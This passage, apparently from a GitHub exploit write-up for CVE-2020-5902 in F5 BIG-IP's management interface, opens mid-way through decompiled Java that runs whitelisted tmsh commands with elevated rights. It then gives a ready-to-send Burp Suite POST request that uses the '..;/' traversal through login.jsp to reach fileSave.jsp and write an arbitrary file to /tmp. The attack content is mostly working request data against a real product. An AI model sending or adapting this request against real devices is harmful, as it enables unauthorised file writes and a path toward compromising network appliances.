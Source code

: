           return resultObject;
        } 
        if ("POST".equalsIgnoreCase(request.getMethod())) {
          String[] cmdArray = command.split(" ");
          String operation = cmdArray[0];
          String module = cmdArray[2];
          if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
            try {
              String[] args = { command };
              Syscall.Result result = Syscall.callElevated(Syscall.TMSH, args);
              output = result.getOutput();
              error = result.getError();
            } catch (com.f5.tmui.util.Syscall.CallException e) {
              logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + e.getMessage());
              error = e.getMessage();
            } 
          } else {
            error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
          } 
        } else {
          error = NLSEngine.getString("ilx.workspace.error.InvalidMethod");
        } 
        resultObject.put("output", output);
        resultObject.put("error", error);
        return resultObject;
      }

### 文件上传

Example: `/tmui/locallb/workspace/fileSave.jsp`

POST: `fileName=/tmp/1.txt&content=CVE-2020-5902`

4.png

#### Burpsuite Requests

    POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 41

    fileName=/tmp/1.txt&content=CVE-2020-5902


